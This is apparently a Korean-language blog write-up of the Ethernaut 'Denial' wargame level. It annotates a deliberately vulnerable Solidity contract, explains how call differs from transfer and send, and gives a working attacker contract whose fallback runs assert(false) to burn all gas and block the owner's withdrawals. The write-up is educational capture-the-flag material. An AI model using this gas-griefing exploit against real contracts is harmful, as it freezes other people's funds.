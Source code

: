 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 20) Denial
date: '2022-02-07 12:50:00'
author: 한성원
tags: ethernaut Denial vulnerability 20
categories: 취약점분석
---
```



# 👋 1. Denial
__Difficulty 5/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- Owner가 withdraw하지 못하게하면 승리한다.
- Owner 인출불가 상태 만들기

- - -

## 코드 분석
분석은 주석에 있습니다!

```solidity
contract Denial {

    using SafeMath for uint256;
    //  파트너가 되어 자금을 1%씩 인출 할 수 있다.
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    //  Owner의 Address
    address payable public constant owner = address(0xA9E);
    //  마지막으로 withdraw했을때의 시간
    uint timeLastWithdrawn;
    // 파트너별 withdraw한 액수
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    //  누구나 자신 또는 다른 address를 파트너로 설정할 수 있다.
    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    //  withdraw 1% to recipient and 1% to owner
    //  owner와 파트너가 1%씩 인출 할 수 있다.
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        // 작성자의 의도는 call을 사용함으로써 partner가 고의적으로 revert해도 owner가 1%을 받게하기 위함이다.
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        // 마지막으로 withdraw한 시간
        timeLastWithdrawn = now;
        // 파트너가 withdraw한 amount
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    // 모든 입금을 허용한다.
    receive() external payable {}

    // convenience function
    // contract가 가지고 있는 ether의 수를 확인하는 함수
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }

}
```
- - -

## 풀이
### 들어가기 전
이 문제는 call과 transfer의 차이를 잘 알아야 풀 수 있는 문제이다.

#### transfer
수신 스마트 계약에는 fallback 함수가 정의되어 있어야 한다. 그렇지 않으면 전송 호출에 오류가 발생한다. `transfer`은 가스 제한량은 2300으로 `transfer`을 완료하기에 한 양이다.

#### send
`transfer`과 유사한 방식으로 작동하며 가스 제한도 2300이다. 하지만 `transfer`과 다르게 status를 `bool` 값으로 반환한다.

#### call
smart contract에 ETH를 보내는 권장되는 방법이다. call의 빈 인수는 수신 주소의 fallback 함수를 실행시킨다.

```solidity
(bool sent,memory data) = _to.call{value: msg.value}("");
```
`call`을 사용하여 contract에 정의된 다른 기능을 실행시키고 함수를 실행하기 위해 고정된 양의 가스를 보낼 수도 있다. 트랜잭션의 상태가 `bool`값으로 전송되고 return 값이 데이터 변수로 전송된다. 고정된 양의 gas를 보내지 않는다면 사용가능한 모든 gas를 보낸다.

<br/>

우리는 call을 사용해 가져오는 gas 모두 소모해 문제를 해결할 수 있다.
### 풀이
그렇다면 어떻게 모든 gas를 소모할 수 있을까?
gas를 모두 소모할 수 있는 방법이 몇가지 있다.
1. while(true){}
2. assert

* `assert`는 `revert`와 `require`과 다르게 모든 gas를 소모시킨다. 즉 assert가 아닌 다른 것을 사용하여 `revert`하면 gas를 전부 소모시킬 수 업없다.

* 필자는 reentrency를 사용하여 풀려하였지만 reentrency를 사용하였을때 Denial contract에 예기치 못한 ERROR를 만들 수는 있지만 owner에게 ETH가 전송되어 실패하였다. 그래서 가스를 다 소모할 수 있는 다른 방법을 사용하였다.

필자는 2번을 사용하여 문제를 풀었다.

우선 Denial Attack Contract에 fallback을 만들어보자
```solidity
contract DenialAttack {

    Denial denial;
    // 공격할 contract를 Denial contract로 설정
    constructor(address payable _denial) public {
        denial = Denial(_denial);
    }

    // attack을 진행하는 함수
    function attack() public {
        // DenialAttack contract를 파트너로 만들고 withdraw실행
        denial.setWithdrawPartner(address(this));
        denial.withdraw();
    }

    // withdraw이후 ETH가 전송될 때 fallback을 실행시키며 모든 gas소모
    fallback() external payable{
        //방법 1. while(true){}
        //방법 2. assert(false);
        assert(false);
        }

} 
```
<br/>
이 코드를 remix를 통해 Rinkeby network에 deploy한 후 attack()을 실행시켜주면 끝난다.

attack()을 실행시킨 후 transaction이 완료되면 etherscan에서 gas limit을 초과해 에러가 났다고 다음과 같이 나올 것이다.

![gas](./gas_denial.png)

<br/>


에러를 확인했다면 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -

## 마무리
역시 ethernaut를 풀면서 solidity에 대해 다시 복습하고 있는것 같다. `send vs transfer vs call`에 대해서도 다시 찾아보며 공부할 수 있었고, assert, revert와 require의 차이점을 공부할 수 있었던 문제였던 것 같다. 

- - -
## REF
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org


```toc

```